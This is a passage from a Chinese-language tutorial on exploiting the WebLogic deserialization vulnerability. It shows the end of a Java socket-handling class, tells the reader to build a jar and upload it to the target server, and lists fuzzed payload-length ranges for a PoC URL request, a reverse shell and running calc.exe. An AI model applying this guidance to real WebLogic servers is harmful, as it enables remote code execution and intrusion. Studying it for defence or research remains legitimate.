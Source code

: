```
                    Thread.sleep(1000);
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
            try {
                out.write("error".getBytes());
                out.flush();
            } catch (IOException e1) {
                e1.printStackTrace();
            }
        } finally {
            try {
                client.close();
                server.close();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }

    /**
     * 合并字节数组
     * @param byte_1
     * @param byte_2
     * @return 合并后的数组
     */
    private static byte[] byteMerger(byte[] byte_1, byte[] byte_2) {
        byte[] byte_3 = new byte[byte_1.length + byte_2.length];
        System.arraycopy(byte_1, 0, byte_3, 0, byte_1.length);
        System.arraycopy(byte_2, 0, byte_3, byte_1.length, byte_2.length);
        return byte_3;
    }

}

```

编译并导出jar包

2.发送Payload把jar包上传至服务器
----------------------

这里我要特别说明一点，breenmachine在介绍WebLogic漏洞利用时特别说明了需要计算Payload的长度，但是我看到过的国内文章没有一篇提到这一点，给出的利用代码中的Payload长度值写的都是原作者的`09f3`，我觉得这也是导致漏洞利用失败的主要原因之一，因此发送Payload前最好计算下长度。

> A very important point about the first chunk of the payload. Notice the first 4 bytes “00 00 09 f3”. The “09 f3” is the specification for the TOTAL payload length in bytes.

Payload的长度值可以在一个范围内，我们团队的cf_hb经过fuzz测试得到几个范围值：

> 1.  poc访问指定url：0x0000-0x1e39
> 2.  反弹shell：0x000-0x2049
> 3.  执行命令calc.exe：0x0000-0x1d38
